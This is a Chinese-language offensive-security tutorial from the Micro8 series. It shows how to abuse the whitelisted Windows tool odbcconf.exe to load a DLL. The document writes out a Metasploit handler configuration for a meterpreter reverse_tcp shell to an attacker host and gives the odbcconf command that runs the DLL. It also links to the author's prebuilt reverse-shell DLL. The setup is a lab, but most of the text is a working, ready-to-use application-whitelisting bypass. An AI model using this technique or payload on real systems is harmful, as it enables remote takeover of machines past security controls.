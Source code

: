 ```yaml
---
title: 82、基于白名单Odbcconf执行payload第十二季
date: 2019-09-21 19:06:38
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Odbcconf简介：

ODBCCONF.exe是一个命令行工具，允许配置ODBC驱动程序和数据源。

微软官方文档：  
https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：
```code
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe`

Windows 7 默认位置：
`C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

**攻击机：**   
192.168.1.4 Debian  

**靶机：**   
192.168.1.119 Windows 2003  
192.168.1.5 Windows 7

### 配置攻击机msf：
**注：x86 payload**
```code
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name

‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](../do/media/ba0e4d6c7b05eef6b8bcd5a730fb0c0b.jpg)

### 靶机执行：Windows 2003

**注：**文中为了更好的跨Windows 03--Windows 2016，Odbcconf for dll采纯C重新编写。  

![](../do/media/df24184d409a2c0d09bbd18c511bc231.jpg)

```code
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\Micropoor_Odbcconf.dll}
```

**注：x64** Odbcconf.exe  
![](../do/media/74bf5a42540b5298cffc72cfa8987743.jpg)  

![](../do/media/c8a788e729ff4969f70affe596b8f3a5.jpg)

### 附：
Micropoor_Odbcconf.dll，已测Windows 2003 x64 Windows 7 x64

**注：**
功能：reverse_tcp IP:192.168.1.4 PORT:53。如有安全软件拦截，因Micropoor加入特征。

>   大小: 73216 字节
>   修改时间: 2019年1月19日, 21:29:11
>   MD5: B31B971F01DE32EC5EC45746BF3DDAD2
>   SHA1: CF42E4BF5A613992B7A563A522BBEBF1D0F06CCE CRC32: 28A1CE90

https://drive.google.com/open?id=1j12W7VOhv_-NdnZpFhWLwdt8sQwxdAsk

>   Micropoor
